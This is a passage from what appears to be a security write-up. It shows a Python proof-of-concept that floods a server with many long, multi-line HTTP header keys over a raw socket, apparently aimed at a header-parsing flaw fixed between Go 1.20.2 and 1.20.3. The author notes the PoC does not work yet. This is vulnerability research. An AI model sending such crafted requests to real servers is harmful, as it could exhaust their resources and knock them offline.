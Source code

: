 ```python
except :
  print("Usage {} <how-many-keys> <subkey-amount-foreach-key>".format(sys.argv[0]))
  sys.exit(-1)

key_val = "\r\n".join(
  [ 
    f"Long-Key{j}: v\n" + "\n".join([f" v{i}" for i in range(repeat_2)]) for j in range(repeat) 
  ]
)


# Create a TCP/IP socket
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    # Connect to the server
    s.connect((HOST, PORT))
    
    # Send the request
    request = request + "\n" + key_val + "\r\n\r\n"

    s.sendall(request.encode())

    # Receive the response
    time.sleep(1.5)
    data = s.recv(4096)

print('Received:')
print(data)


```

Sadly the PoC doesn't work yet as no difference can be found between GO 1.20.2 and 1.20.3 execution flow

<p align ="center">
  <img src="/files/2023-04-14/t28.jpg">
</p>
